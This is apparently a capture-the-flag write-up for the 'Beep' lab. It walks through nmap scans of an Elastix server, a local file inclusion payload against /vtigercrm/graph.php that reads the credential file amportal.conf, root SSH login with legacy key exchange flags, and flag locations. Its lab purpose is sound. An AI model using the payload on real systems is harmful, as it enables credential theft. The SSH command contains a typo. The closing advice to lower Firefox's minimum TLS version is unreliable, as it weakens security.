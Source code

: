 ## Beep

### Lab Details 

- Difficulty: Easy
- Type: Web app, Webb exploit, SSH

#### Tasks

Q1: Which Linux distribution is the target machine running?
 - `nmap target_ip -sT -A -p- -T4`
 ```
    443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
    |_http-title: Elastix - Login page
    | ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
    | Not valid before: 2017-04-07T08:22:08
    |_Not valid after:  2018-04-07T08:22:08
    | http-robots.txt: 1 disallowed entry 
    |_/
    |_http-server-header: Apache/2.2.3 (CentOS)
    |_ssl-date: 2025-05-16T02:00:43+00:00; -1m01s from scanner time.
```
 - CentOS

Q2: What version of TLS is the web application on TCP port 443 using?
 - `nmap target_ip -sV -script ssl-enum-ciphers -p 443`
```
    |   TLSv1.0: 
    |     ciphers: 
    |       TLS_DHE_RSA_WITH_3DES_EDE_CBC_SHA (dh 1024) - F
    |       TLS_DHE_RSA_WITH_AES_128_CBC_SHA (dh 1024) - F
```

Q3: What is the name of the software that's hosting a webserver on 443?
 - can be found in first nmap output or visit the app via URL
 - elastix

Q4: Which Elastix endpoint is vulnerable to a Local File Inclusion?
 - according to https://www.exploit-db.com/exploits/37637 
 - `#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`
 - and based on the exploit above the vulnerable endpoint is located at /vtigercrm/graph.php

Q5: What is the name of the FreePBX configuration file that contains the database configuration?
 - according to the exploit we are fetch the file called amportal.conf which contains db configurations

Q6: What additional flag is needed when attempting to SSH as root to the target machine due to a "no matching key exchange method found" error? It starts with -o and ends with -sha1.
 - when trying to ssh as root to target we get below error 
```
ssh root@10.10.10.7            
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
 - after searching online, to connect using legacy cipher ssh will require the cipher to be specified
 - we need both server and host cipher to be specified inorder to connect
 - `ssh -oKexAlgorithms=+diffie0hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa root@target_ip`

Q7&8: Flags for user fanis and root 
 - located at /root/root.txt and /home/fanis/users.txt

#### Lesson Learned
- Check web app TLS version and if TLS version is 1 or 2 update it, on firefox set security.tls.version.min to 1 in about:config
- Need to read and understand the exploit, read it carefully
- Need to understand the output of an exploit
- How to connect to remote when using legacy cipher`ssh -oKexAlgorithms=+diffie0hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa root@target_ip`
